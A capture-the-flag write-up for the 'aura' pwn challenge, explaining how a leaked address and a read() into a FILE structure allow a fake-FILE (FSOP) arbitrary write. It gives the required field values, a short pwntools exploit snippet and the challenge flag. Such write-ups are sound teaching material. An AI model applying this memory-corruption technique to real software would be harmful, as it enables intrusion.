 # aura

## 🧩 Challenge Summary

- **Category**: Pwn  
- **Points**: 438  
- **Solves**: 77 teams

---

### 📝 Problem Description

> I can READ ur aura.

---

## 🧠 Challenge Structure

The binary leaks the address of a global variable called `aura`, and asks the user to send some input. Depending on whether `aura` is set to a nonzero value, the program either reads and prints the flag or denies access.

```c
printf("my aura: %p\nur aura? ", &aura);
FILE *buf = fopen("/dev/null", "r");
read(0, buf, 0x100);
fread(ptr, 1, 8, buf);

if (aura) {
    FILE *stream = fopen("flag.txt", "r");
    fread(v6, 1, 0x11, stream);
    printf("%s\n", v6);
} else {
    puts("u have no aura.");
}
```

Protections:

```
Arch:       amd64-64-little  
RELRO:      Partial RELRO  
Stack:      Canary found  
NX:         NX enabled  
PIE:        PIE enabled  
Stripped:   No
```

- PIE is enabled, but the program leaks the address of `aura`, giving us an absolute target.
- The stack is protected, but we don’t need to touch it.
- The main goal is to set `aura` to a nonzero value.

---

## ✅ Exploitation Flow

### 🔹 Step 1: Leak

The program prints the address of the global variable `aura`, despite PIE being enabled. This gives us a reliable memory address to target later in the exploit.

```c
printf("my aura: %p\nur aura? ", &aura);
```

---

### 🔹 Step 2: FSOP — Arbitrary Address Write via Fake FILE Structure

After leaking the address, the binary does the following:

```c
FILE *buf = fopen("/dev/null", "r");
read(0, buf, 0x100);
fread(ptr, 1, 8, buf);
```

Here, `buf` is a pointer to a `FILE` structure allocated by `fopen()`.  
The call to `read(0, buf, 0x100)` directly overwrites the memory pointed to by `buf` — in other words, the `FILE` structure itself.  
This gives us a powerful primitive: **we can craft and inject a fake `FILE` structure in memory**.

We exploit this to redirect the `fread()` call into writing arbitrary data to the `aura` variable.

### 🔸 FSOP Requirements for Arbitrary Write

To trigger a successful write using `fread()` via a crafted `FILE` structure, the following conditions must be satisfied:

| Field                    | Requirement                                                                 |
|--------------------------|-----------------------------------------------------------------------------|
| `_flags`                 | Must not contain `_IO_NO_READS` (`0x4`). Set `_flags & ~0x4`.               |
| `_IO_read_ptr == _IO_read_end` | Triggers `__underflow()` to call `read()` — assumes buffer is empty.       |
| `_IO_buf_base`           | Set to the target address (in this case, `aura`).                           |
| `_IO_buf_end`            | Set to `aura + n` (write length).                                           |
| `_fileno`                | Set to `0` (STDIN), so we can supply data via standard input.               |

In the actual exploit, only the essential fields are overwritten. The rest (like `_lock`, `_wide_data`, etc.) retain their original values from `fopen("/dev/null", "r")`, keeping the structure valid enough for libc internals to operate without crashing.

Example state of the `FILE` structure after crafting:

```c
{
  _flags = 0x0,
  _IO_read_ptr = 0x0,
  _IO_read_end = 0x0,
  _IO_read_base = 0x0,
  _IO_write_base = 0x0,
  _IO_write_ptr = 0x0,
  _IO_write_end = 0x0,
  _IO_buf_base = 0x642e437ad08c <aura> "",
  _IO_buf_end = 0x642e437ad09c "",
  _IO_save_base = 0x0,
  _IO_backup_base = 0x0,
  _IO_save_end = 0x0,
  _markers = 0x0,
  _chain = 0x0,
  _fileno = 0x0,
  _flags2 = 0x0,
  _old_offset = 0x0,
  _cur_column = 0x0,
  _vtable_offset = 0x0,
  _shortbuf = "",
  _lock = 0x642e4be76380,
  _offset = 0xffffffffffffffff,
  _codecvt = 0x0,
  _wide_data = 0x642e4be76390,
  _freeres_list = 0x0,
  _freeres_buf = 0x0,
  __pad5 = 0x0,
  _mode = 0x0,
  _unused2 = '\0' <repeats 19 times>
}
```

With this structure in place, `fread()` effectively becomes:

```c
read(0, aura, 0x10);
```

Here’s the corresponding exploit code:

```python
fs = FileStructure()
r.sendafter(b"aura? ", fs.read(aura, 0x10))
r.wait(0.1)
r.send(b"A" * 0x10)
```

- `FileStructure()` is a helper class for building fake `FILE` structs.
- `fs.read(aura, 0x10)` creates a structure with `_IO_buf_base` pointing to `aura`, enabling `fread()` to write 0x10 bytes to that address.
- Sending `b"A" * 0x10` sets `aura` to a non-zero value, which makes the program print the flag.

---

### 🔹 Step 3: Summary

| Step | Action                                                          |
|------|-----------------------------------------------------------------|
| 1    | Leak the address of `aura`.                                     |
| 2    | Craft and inject a fake `FILE` structure that writes to `aura`. |
| 3    | Send any non-zero data (e.g., `b"A" * 0x10`).                    |
| 4    | Flag is printed.                                                |

---

## 🏁 Flag

```
UMDCTF{+100aur4}
```
